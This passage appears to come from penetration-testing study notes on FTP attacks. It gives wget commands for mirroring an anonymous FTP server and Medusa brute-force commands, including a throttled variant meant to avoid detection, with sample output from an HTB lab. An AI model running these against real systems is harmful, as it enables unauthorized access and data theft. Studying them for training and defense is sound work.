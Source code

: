 #### Mass Data Extraction
```bash
# Automated download of accessible files
wget -m --no-passive ftp://anonymous:anonymous@target_ip

# Results in organized directory structure
tree target_ip/
└── target_ip
    ├── sensitive_documents/
    │   ├── passwords.txt
    │   ├── database_config.ini
    │   └── employee_list.xlsx
    └── backup_files/
        └── system_backup.tar.gz
```

---

## 🔐 Authentication Attacks

### Brute Force with Medusa

#### Basic Medusa Usage
```bash
# Single user brute force
medusa -u admin -P /usr/share/wordlists/rockyou.txt -h target_ip -M ftp

# HTB Academy example:
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp

# Expected output:
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: fiona Password: family [SUCCESS]
```

#### Advanced Medusa Attacks
```bash
# Multi-user brute force
medusa -U userlist.txt -P passwords.txt -h target_ip -M ftp

# Targeted attack with common passwords
medusa -u admin -p admin,password,123456,ftp,root -h target_ip -M ftp

# Slow brute force to avoid detection
medusa -u admin -P passwords.txt -h target_ip -M ftp -t 1 -s 5
```

---

## 🌐 FTP Bounce Attack Exploitation
